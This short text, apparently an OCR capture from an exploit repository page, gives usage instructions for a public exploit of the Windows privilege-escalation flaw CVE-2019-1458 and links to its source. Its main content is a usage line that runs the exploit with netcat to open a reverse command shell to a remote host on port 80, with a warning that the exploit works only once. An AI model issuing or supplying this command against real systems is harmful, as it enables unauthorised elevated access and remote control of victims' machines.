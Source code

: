 CVE-2019-1458:
!!Only One Chance!!
Usage:
.\cve-2019-1458 ".\nc.exe x.x.x.x 80 -e cmd"
https://github.com/unamer/CVE-2019-1458
